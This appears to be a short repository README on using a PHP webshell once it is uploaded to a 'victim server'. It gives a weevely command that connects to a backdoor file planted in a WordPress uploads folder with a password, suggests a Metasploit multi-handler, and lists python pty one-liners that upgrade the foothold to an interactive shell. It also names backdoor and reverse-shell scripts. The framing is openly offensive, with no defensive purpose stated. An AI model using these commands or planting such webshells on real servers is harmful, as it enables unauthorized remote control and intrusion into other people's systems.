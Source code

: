 PHP Webshell

There are many ways of using this webshell once uploaded on victim server
Methods:
* use MetsSploit and use miltihandler
* use weevley 
 weevely http://<IP>/wp-content/uploads/2016/08/phpbackdoor.php letmein
Below lines imports bash and starts a new shell. From here you will able to run commands as normal.
 python -c 'import pty; pty.spawn("/bin/sh")'
 python -c "import pty;pty.spawn('/bin/bash');"


* simple-backdoor.php - as noted a very simple php-backdoor
* php-reverse-shell.php
